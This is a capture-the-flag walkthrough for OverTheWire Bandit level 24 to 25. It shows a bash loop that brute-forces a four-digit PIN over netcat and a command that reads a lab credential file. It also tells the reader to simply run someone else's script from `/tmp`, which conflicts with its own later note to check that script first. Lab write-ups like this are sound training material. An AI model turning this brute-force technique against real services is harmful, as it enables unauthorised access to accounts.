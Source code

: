 # 🏴 Bandit Level 24 → Level 25 – Brute-Force 4-Digit PIN

---

## 🎯 Level Goal

A daemon is listening on **port `30002`**. It will provide the password for `bandit25` if you:

1. Send the correct **password of `bandit24`**, followed by  
2. A secret **4-digit numeric PIN code** (from `0000` to `9999`)

🧠 You do **not** need to create a new connection for each attempt — this means you can **reuse the same connection** to try all combinations.

---

## 🛠 Commands You Might Use

- `nc` – netcat, used to connect to the daemon.
- `for` loops – to brute-force the PIN.
- Shell redirection or `echo` – to send inputs.

---

## 🪜 Step-by-Step Instructions

### 🔹 Step 1: Get current level's password

Ensure you have the password for `bandit24`:

```bash
cat /etc/bandit_pass/bandit24
```

Let’s assume it is: `your_password_here`  
We will store it in a variable:

```bash
export PW=your_password_here
```

---

### 🔹 Step 2: Connect to the daemon

To manually test:

```bash
nc localhost 30002
```

Then try entering:

```
your_password_here 0000
```

You will see either "Wrong!" or the actual password for the next level.

---

### 🔹 Step 3: Brute-force using a shell script

You can automate all 10,000 tries with this:

```bash
#!/bin/bash

pw="your_password_here"
for pin in $(seq -w 0000 9999); do
  echo "$pw $pin"
  sleep 0.01
done | nc localhost 30002
```

Save this script as `brute.sh`, give it execution permission, and run it:

```bash
chmod +x brute.sh
./brute.sh
```

### ⚡ Alternative: Use pre-existing brute.sh in `/tmp`

Sometimes in Bandit labs, the brute-force script is already written and stored in `/tmp` by someone else. In that case, simply run:

```bash
/tmp/brute.sh
```

✅ This saves you from writing the script yourself.

---

## ✅ Output

Once the correct PIN is sent, the server will respond with the **password for `bandit25`**.

---

## 🧭 Logging into the next level

```bash
ssh bandit25@bandit.labs.overthewire.org -p 2220
```

---

## 🧠 Notes

- `chmod +x brute.sh`: makes your script executable. The `+x` flag stands for "add execute permission".
- `seq -w 0000 9999`: generates numbers from 0000 to 9999 with leading zeroes.
- `sleep 0.01`: prevents flooding the server by spacing requests.
- If you're using a shared environment, `/tmp/brute.sh` might already exist — check it first before creating your own.

---

## 🚀 You're now ready to conquer Bandit Level 24 → 25!
